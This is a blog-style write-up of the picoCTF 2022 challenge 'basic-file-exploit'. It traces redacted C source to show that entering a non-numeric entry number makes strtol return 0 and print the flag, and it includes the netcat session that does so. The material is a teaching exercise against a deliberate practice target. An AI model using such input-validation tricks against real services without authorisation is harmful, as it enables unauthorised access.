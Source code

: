 ```yaml
---
title: "pico22/pwn: basic-file-exploit"
date: 2022-04-05 12:16:07
tags:
- ctf
- pico22
- pwn
description: "Writeup for the picoCTF 2022 pwn challenge \"basic-file-exploit\"."
permalink: ctfs/pico22/pwn/basic-file-exploit/
thumbnail: https://enscribe.dev/image/banner-ctfs.png
---
```


<style>
    .box {
        border: 1px solid rgba(100, 100, 100, .5);
        padding: 1rem;
        font-size: 90%;
        text-align: center;
    }
    .flex-container {
        display: flex;
        flex-wrap: nowrap;
        justify-content: center;
    }
</style>

<p class="box">
The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it!<br>Connect to the program with netcat: <code>$ nc saturn.picoctf.net 50366</code><br>
The program's source code with the flag redacted can be downloaded  <a href="https://artifacts.picoctf.net/c/538/program-redacted.c">here</a>.</p>

Let's run that `nc` command to see what's going on.

```text
$ nc saturn.picoctf.net 50366
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
```

Since this is binary exploitation, we're probably looking for something that the user can input which breaks the code.
To see what we can break, enter the source code given to you (the file called `program-redacted.c`):

```bash
nano program-redacted.c
```

Let's look for the flag:

```c
static const char* flag = "[REDACTED]";
```

Well, that doesn't help. Let's keep looking.

```c
if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
  }
```

Here, the flag is going to be printed if this condition is met. Google defines `strtol()` as a function that "converts the initial part of the string in **str** to a **long int** value according to the given **base**". To break it, we need to input something that is **unconvertable into a long integer**. In this case, it would be letters! This statement is within the `static void data_read()` function. Let's see where it's called:

```c
 } else if (command == 2) {
      if (inputs == 0) {
        puts("No data yet");
        continue;
      }
      data_read();
      puts("Read successful, would you like to do anything else?");
```

We should be pressing the command `2` to read from the stored data (once we write it with the `1` command). Once it prompts us with "Read successful..." we should input letters to break it. Let's head back to the `netcat` and test it out:

```text
$ nc saturn.picoctf.net 50366
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
hello
hello
Please enter the length of your data:
5
5
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
"NO!"
"NO!"
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_********}
```
